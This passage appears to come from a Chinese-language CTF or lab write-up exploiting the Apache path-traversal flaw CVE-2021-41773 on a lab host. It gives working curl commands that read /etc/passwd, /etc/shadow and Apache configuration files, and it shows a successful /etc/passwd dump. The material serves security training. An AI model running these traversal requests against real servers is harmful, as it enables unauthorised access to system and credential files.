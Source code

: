 ###### 3.2.1 基础路径遍历测试

```bash
# 尝试通过CGI路径读取 /etc/passwd 文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试读取 Apache 配置文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/apache2.conf"

# 尝试读取其他敏感文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow"
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/proc/version"
```

**执行结果分析**:
所有通过 `/cgi-bin/`路径的攻击尝试都返回了 `500 Internal Server Error`，这表明：

1. **CGI配置问题**: CGI模块可能没有正确配置或缺少必要的CGI脚本
2. **路径解析问题**: Apache可能对CGI路径下的路径遍历有特殊处理
3. **权限限制**: 可能存在额外的访问控制机制

###### 3.2.2 非CGI路径的直接遍历攻击

CVE-2021-41773不仅限于CGI路径，我们尝试其他映射路径：

```bash
# 尝试通过icons路径进行遍历
curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试通过manual路径进行遍历  
curl "http://10.37.133.3:42286/manual/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 直接根路径尝试
curl "http://10.37.133.3:42286/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
